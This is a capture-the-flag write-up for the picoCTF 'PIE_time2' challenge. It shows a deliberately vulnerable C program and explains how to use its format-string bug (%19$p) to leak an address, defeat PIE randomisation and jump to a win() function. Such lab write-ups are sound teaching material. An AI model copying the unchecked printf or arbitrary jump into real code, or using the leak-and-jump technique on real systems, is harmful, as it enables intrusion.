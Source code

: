 # PIE_time2 Challenge Solution

## Challenge Overview

This challenge involves a Position Independent Executable (PIE) binary that has a format string vulnerability and allows jumping to arbitrary memory addresses. The goal is to call the `win()` function to get the flag, but since PIE randomizes the base address of the program, we need to leak an address first and calculate the win function location.

## Understanding the Code

```c
// filepath: /home/richie/workspace/pico/final_writeoff/binary_exploiration/PIE_time2[medium]/vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name: ");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
  return;
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
main_1441:
  return 0;
}
```

## Vulnerabilities

There are two key vulnerabilities in this code:

1. **Format String Vulnerability**: 
   ```c
   printf(buffer);  // The user input is directly passed to printf
   ```

2. **Arbitrary Jump**:
   ```c
   void (*foo)(void) = (void (*)())val;
   foo();  // Jumps to any address we provide
   ```

## Exploitation Steps

### 1. Identify the Offsets

We need to identify important offsets:
- The `win()` function is at some offset from the program base
- The label `main_1441` is at offset 0x1441 from the base

### 2. Leak an Address Using Format String

We can use the format string vulnerability to leak an address from the stack. Specifically, `%19$p` will print the return address for the `main` function, which corresponds to the `main_1441` label.

```
Enter your name: %19$p
0x55dcded5a441  // Example leaked address
```

### 3. Calculate the Base Address

We know that the leaked address (0x55dcded5a441 in this example) corresponds to the `main_1441` label, which is at offset 0x1441 from the base address.

```
base_address = leaked_address - 0x1441
base_address = 0x55dcded5a441 - 0x1441 = 0x55dcded59000
```

### 4. Calculate Win Function Address

The `win()` function is at offset 0x136a from the program base (you would determine this through binary analysis or from the objdump).

```
win_address = base_address + 0x136a
win_address = 0x55dcded59000 + 0x136a = 0x55dcded5a36a
```

### 5. Jump to Win Function

When prompted for an address to jump to, we provide the calculated address of the `win()` function:

```
enter the address to jump to, ex => 0x12345: 0x55dcded5a36a
```

The program then executes the `win()` function, which prints the flag.

## Full Exploit Process

1. Run the program
2. Enter `%19$p` as the name to leak a stack address
3. Calculate:
   - Program base address = leaked_address - 0x1441
   - Win function address = base_address + 0x136a
4. Enter the calculated win function address
5. Get the flag!

## Example Execution

```
Enter your name: %19$p
0x55dcded5a441 enter the address to jump to, ex => 0x12345: 0x55dcded5a36a
You won!
picoCTF{flag_contents_here}
```